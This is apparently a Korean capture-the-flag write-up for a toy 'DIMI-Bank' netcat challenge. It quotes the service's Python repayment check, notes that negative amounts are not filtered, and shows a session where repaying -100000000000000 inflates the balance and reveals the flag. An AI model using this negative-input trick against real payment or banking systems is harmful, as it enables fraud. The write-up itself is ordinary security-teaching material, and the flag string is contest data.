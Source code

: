 ```python
    if payback > debt or payback > dimicoin:
        send("Too much :<")
        return

    debt -= payback
    dimicoin -= payback
```

갚을 돈이 부족하거나 빌린 돈보다 더 많이 빌리는지는 검사하지만, 음수를 갚는 경우는 필터링하지 않는다. 그렇다면 음수를 입력값으로 넣어 `dimicoin`을 큰 양수가 되도록 해보자. 하지만, 그 전에 빚은 하나 만들어야 하므로 한번은 빌려야 한다.

이를 바탕으로 실행해보자.

```text
$ nc ctf.dimigo.hs.kr 6713
Welcome DIMI-Bank!
Here 1@ dimi-coin

---- Rate ----
-10%
---- Coin ----
0.9@
---- debt ----
0.0@

------------------------------
1. pay back
2. debt
:> 2

How much you loan?
:> 1

---- Rate ----
-10%
---- Coin ----
1.71@
---- debt ----
0.9@

------------------------------
1. pay back
2. debt
:> 1

How much you pay back?
:> -100000000000000

GoodJob!!!
--------------------------------------------------
DIMI{m1nu5_b4nk_cUrR:p7}
--------------------------------------------------
```
